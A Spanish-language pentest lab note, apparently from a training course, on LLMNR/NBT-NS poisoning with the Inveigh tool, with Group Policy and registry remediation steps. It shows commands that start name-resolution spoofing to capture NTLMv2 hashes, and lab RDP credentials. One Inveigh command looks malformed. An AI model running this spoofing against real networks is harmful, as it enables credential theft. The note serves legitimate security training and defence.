

# Envenenamiento por LLMNR-NBT-NS desde Windows

### Envenenamiento por LLMNR-NBT-NS desde Windows

> **QUOTE:** En esta sección, exploraremos la herramienta [Inveigh](https://github.com/Kevin-Robertson/Inveigh) e intentaremos capturar otro conjunto de credenciales.

> **NOTE:** La herramienta [Inveigh](https://github.com/Kevin-Robertson/Inveigh) funciona de manera similar a Responder, pero está escrita en PowerShell y C#. Inveigh puede escuchar IPv4 e IPv6 y varios otros protocolos.

```powershell
# Nos conectamos a la máquina con xfreerdp
xfreerdp /v:10.129.232.145 /u:htb-student /p:Academy_student_AD!

# Vamos a importar el módulo de Inveigh
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters

# Comencemos Inveigh con la suplantación de LLMNR y NBNS
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

# Podemos pausar el envenenamiento
- Pulsa la tecla ESC
- Luego escribe HELP

# Podemos capturar los hashes únicos escribiendo "GET NTLMV2UNIQUE"
```

> [https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters)

### Remedio

> **NOTE:** Mitre ATT\&CK enumera esta técnica como [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

> **TIP:** Existen algunas formas de mitigar este ataque. Para garantizar que estos ataques de suplantación de identidad no sean posibles, podemos desactivar LLMNR y NBT-NS. Como advertencia, siempre vale la pena probar lentamente un cambio significativo como este en su entorno con cuidado antes de implementarlo por completo.

> **QUOTE:** Como evaluadores de penetración, podemos recomendar estos pasos de solución, pero debemos comunicar claramente a nuestros clientes que deben probar estos cambios exhaustivamente para asegurarse de que la desactivación de ambos protocolos no dañe nada en la red.

> **SUCCESS:** Podemos deshabilitar LLMNR en la Política de grupo yendo a Configuración del equipo -> Plantillas administrativas -> Red -> Cliente DNS y habilitando "Desactivar la resolución de nombres de multidifusión".

<figure><figcaption></figcaption></figure>

> **BUG:** No es posible desactivar NBT-NS mediante la directiva de grupo, sino que debe desactivarse localmente en cada host. Para ello, abra `Network and Sharing Center`, en el `Control Panel`, haga clic en `Change adapter settings`, haga clic con el botón derecho en el adaptador para ver sus propiedades, seleccione `Internet Protocol Version 4 (TCP/IPv4)`, haga clic en el botón `Properties`, luego haga clic en `Advanced`, seleccione la pestaña `WINS` y, por último, seleccione `Disable NetBIOS over TCP/IP`.

<figure><figcaption></figcaption></figure>

> **QUOTE:** Si bien no es posible deshabilitar NBT-NS directamente a través de GPO, podemos crear un script de PowerShell en Configuración del equipo --> Configuración de Windows --> Script (Inicio/Apagado) --> Inicio con algo como lo siguiente:

```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey | foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose }
```

> **QUOTE:** En el Editor de políticas de grupo local, deberemos hacer doble clic en `Startup`, elegir la pestaña `PowerShell Scripts` y seleccionar "Para esta GPO, ejecutar scripts en el siguiente orden" para `Run Windows PowerShell scripts first`, y luego hacer clic en `Add` y elegir el script. Para que se produzcan estos cambios, tendríamos que reiniciar el sistema de destino o reiniciar el adaptador de red.

<figure><figcaption></figcaption></figure>

> **TIP:** Para enviar esto a todos los hosts de un dominio, podríamos crear un GPO usando el `Group Policy Management` del controlador de dominio y alojar el script en el recurso compartido SYSVOL en la carpeta de scripts y luego llamarlo a través de su ruta UNC como:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

> **QUOTE:** Una vez que se aplica el GPO a unidades organizativas específicas y se reinician esos hosts, el script se ejecutará en el próximo reinicio y deshabilitará NBT-NS, siempre que el script aún exista en el recurso compartido SYSVOL y el host pueda acceder a él a través de la red.

<figure><figcaption></figcaption></figure>

> **TIP:** Otras mitigaciones incluyen filtrar el tráfico de red para bloquear el tráfico LLMNR/NetBIOS y habilitar la firma SMB para evitar ataques de retransmisión NTLM. Los sistemas de prevención y detección de intrusiones de red también se pueden utilizar para mitigar esta actividad, mientras que la segmentación de red se puede utilizar para aislar los hosts que requieren que LLMNR o NetBIOS estén habilitados para funcionar correctamente.
